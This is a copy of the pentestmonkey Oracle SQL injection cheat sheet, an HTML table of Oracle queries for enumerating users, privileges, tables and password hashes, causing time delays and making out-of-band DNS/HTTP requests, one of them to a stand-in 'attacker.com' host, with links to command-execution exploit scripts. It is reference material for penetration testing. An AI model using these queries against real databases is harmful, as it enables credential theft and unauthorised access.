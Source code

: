 http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet

<table border="1">
<tbody>
<tr>
<td>Version</td>
<td>SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;<br>
SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’;<br>
SELECT version FROM v$instance;</td>
</tr>
<tr>
<td>Comments</td>
<td>SELECT 1 FROM dual — comment<br>
– NB: SELECT statements must have a FROM clause in Oracle so we have to use the dummy table name ‘dual’ when we’re not actually selecting from a table.</td>
</tr>
<tr>
<td>Current User</td>
<td>SELECT user FROM dual</td>
</tr>
<tr>
<td>List Users</td>
<td>SELECT username FROM all_users ORDER BY username;<br>
SELECT name FROM sys.user$; — priv</td>
</tr>
<tr>
<td>List Password Hashes</td>
<td>SELECT name, password, astatus FROM sys.user$ — priv, &lt;= 10g.&nbsp; astatus tells you if acct is locked<br>
SELECT name,spare4 FROM sys.user$ — priv, 11g</td>
</tr>
<tr>
<td>&nbsp;Password Cracker</td>
<td><a href="http://www.red-database-security.com/software/checkpwd.html">checkpwd</a> will crack the DES-based hashes from Oracle 8, 9 and 10.</td>
</tr>
<tr>
<td>List Privileges</td>
<td>SELECT * FROM session_privs; — current privs<br>
SELECT * FROM dba_sys_privs WHERE grantee = ‘DBSNMP’; — priv, list a user’s privs<br>
SELECT grantee FROM dba_sys_privs WHERE privilege = ‘SELECT ANY DICTIONARY’; — priv, find users with a particular priv<br>
SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;</td>
</tr>
<tr>
<td>List DBA Accounts</td>
<td>SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = ‘YES’; — priv, list DBAs, DBA roles</td>
</tr>
<tr>
<td>Current Database</td>
<td>SELECT global_name FROM global_name;<br>
SELECT name FROM v$database;<br>
SELECT instance_name FROM v$instance;<br>
SELECT SYS.DATABASE_NAME FROM DUAL;</td>
</tr>
<tr>
<td>List Databases</td>
<td>SELECT DISTINCT owner FROM all_tables; — list schemas (one per user)<br>
– Also query TNS listener for other databases.&nbsp; See <a href="http://www.jammed.com/~jwa/hacks/security/tnscmd/tnscmd-doc.html">tnscmd</a> (services | status).</td>
</tr>
<tr>
<td>List Columns</td>
<td>SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’;<br>
SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’ and owner = ‘foo’;</td>
</tr>
<tr>
<td>List Tables</td>
<td>SELECT table_name FROM all_tables;<br>
SELECT owner, table_name FROM all_tables;</td>
</tr>
<tr>
<td>Find Tables From Column Name</td>
<td>SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE ‘%PASS%’; — NB: table names are upper case</td>
</tr>
<tr>
<td>Select Nth Row</td>
<td>SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9; — gets 9th row (rows numbered from 1)</td>
</tr>
<tr>
<td>Select Nth Char</td>
<td>SELECT substr(‘abcd’, 3, 1) FROM dual; — gets 3rd character, ‘c’</td>
</tr>
<tr>
<td>Bitwise AND</td>
<td>SELECT bitand(6,2) FROM dual; — returns 2<br>
SELECT bitand(6,1) FROM dual; — returns0</td>
</tr>
<tr>
<td>ASCII Value -&gt; Char</td>
<td>SELECT chr(65) FROM dual; — returns A</td>
</tr>
<tr>
<td>Char -&gt; ASCII Value</td>
<td>SELECT ascii(‘A’) FROM dual; — returns 65</td>
</tr>
<tr>
<td>Casting</td>
<td>SELECT CAST(1 AS char) FROM dual;<br>
SELECT CAST(’1′ AS int) FROM dual;</td>
</tr>
<tr>
<td>String Concatenation</td>
<td>SELECT ‘A’ || ‘B’ FROM dual; — returns AB</td>
</tr>
<tr>
<td>If Statement</td>
<td>BEGIN IF 1=1 THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END; — doesn’t play well with SELECT statements</td>
</tr>
<tr>
<td>Case Statement</td>
<td>SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; — returns 1<br>
SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual; — returns 2</td>
</tr>
<tr>
<td>Avoiding Quotes</td>
<td>SELECT chr(65) || chr(66) FROM dual; — returns AB</td>
</tr>
<tr>
<td>Time Delay</td>
<td>BEGIN DBMS_LOCK.SLEEP(5); END; — priv, can’t seem to embed this in a SELECT<br>
SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — if reverse looks are slow<br>
SELECT UTL_INADDR.get_host_address(‘blah.attacker.com’) FROM dual; — if forward lookups are slow<br>
SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual; — if outbound TCP is filtered / slow<br>
– Also see <a href="http://technet.microsoft.com/en-us/library/cc512676.aspx">Heavy Queries</a> to create a time delay</td>
</tr>
<tr>
<td>Make DNS Requests</td>
<td>SELECT UTL_INADDR.get_host_address(‘google.com’) FROM dual;<br>
SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;</td>
</tr>
<tr>
<td>Command Execution</td>
<td><a href="http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql">Java</a>can be used to execute commands if it’s installed.<a href="http://www.0xdeadbeef.info/exploits/raptor_oraextproc.sql">ExtProc</a> can sometimes be used too, though it normally failed for me. <img src="http://pentestmonkey.net/wp-includes/images/smilies/icon_sad.gif" alt=":-(" class="wp-smiley"> </td>
</tr>
<tr>
<td>Local File Access</td>
<td><a href="http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql">UTL_FILE</a> can sometimes be used.&nbsp; Check that the following is non-null:<br>
SELECT value FROM v$parameter2 WHERE name = ‘utl_file_dir’;<a href="http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql">Java</a> can be used to read and write files if it’s installed (it is not available in Oracle Express).</td>
</tr>
<tr>
<td>Hostname, IP Address</td>
<td>SELECT UTL_INADDR.get_host_name FROM dual;<br>
SELECT host_name FROM v$instance;<br>
SELECT UTL_INADDR.get_host_address FROM dual; — gets IP address<br>
SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — gets hostnames</td>
</tr>
<tr>
<td>Location of DB files</td>
<td>SELECT name FROM V$DATAFILE;</td>
</tr>
<tr>
<td>Default/System Databases</td>
<td>SYSTEM<br>
SYSAUX</td>
</tr>
</tbody>
</table>

My Cheats
<table border="1">
<tbody>
<tr>
<td>List all tables and rows</td>
<td>
select TABLE_NAME, NUM_ROWS from all_tables  where OWNER like 'ORC';
</td>
<tr>
</tbody>
</table>